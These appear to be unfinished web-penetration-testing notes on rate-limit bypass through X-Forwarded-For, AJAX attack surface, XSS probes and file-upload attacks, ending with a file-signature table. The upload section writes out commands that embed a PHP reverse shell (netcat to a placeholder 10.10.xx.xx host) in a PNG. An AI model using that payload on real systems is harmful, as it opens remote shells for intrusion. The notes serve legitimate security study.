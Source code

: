 There is a HTTP header called "X-Forwarded-For" (XFF) which takes an IP address as value .

https://desmond-hume.medium.com/bypassing-ip-based-rate-limit-72c3d081f15b

#### Is there AJAX

AJAX is a set of web development techniques using many web technologies on the client side to create asynchronous web applications.
For instance, it is able to refresh portions of the page.

SRC Attribute

The XMLHttpRequest object can be used to exchange data with a server behind the scenes.

The AJAX attack surface is larger than usual applications due to:

- The large amounts of client-side code
- The *Business logic* which is client-side

#### XSS

##### Detection

alert()
confirm()
prompt()

##### HTML Injection

> / / / To Finish

<script></script>
SVG

If Same-Origin Policy is enable, it's not a XSS *by design*

##### 

DOM calls along with XMLHttpRequest (XHR) objects are part of the client side logic

http://media.blackhat.com/bh-us-10/whitepapers/Shah/BlackHat-USA-2010-Shah-DOM-Hacks-Shreeraj-wp.pdf

##### File Upload

cp original.png ./shell.php.png
echo '<?php' >> ./shell.php.png
echo 'passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 1337 >/tmp/f");' >> ./shell.php.png
echo '?>' >> ./shell.php.png

| File Type | Mnemonic | Signature |
|-|-|-|
|DOS Executable|"MZ"|0x4D 0x5A|
|PE32 Executable|"MZ"...."PE.."|0x4D 0x5A ... 0x50 0x45 0x00 0x00|
|Mach-O Executable (32 bit)|"FEEDFACE"|0xFE 0xED 0xFA 0xCE|
|Mach-O Executable (64 bit)|"FEEDFACF"|0xFE 0xED 0xFA 0xCF|
|ELF Executable|".ELF"|0x7F 0x45 0x4C 0x46|
|Zip Archive|"PK.."|0x50 0x4B 0x03 0x04|
|Rar Archive|"Rar!...."|0x52 0x61 0x72 0x21 0x1A 0x07 0x01 0x00|
|Ogg Container|"OggS"|0x4F 0x67 0x67 0x53|
|Matroska/EBML Container|N/A|0x45 0x1A 0xA3 0xDF|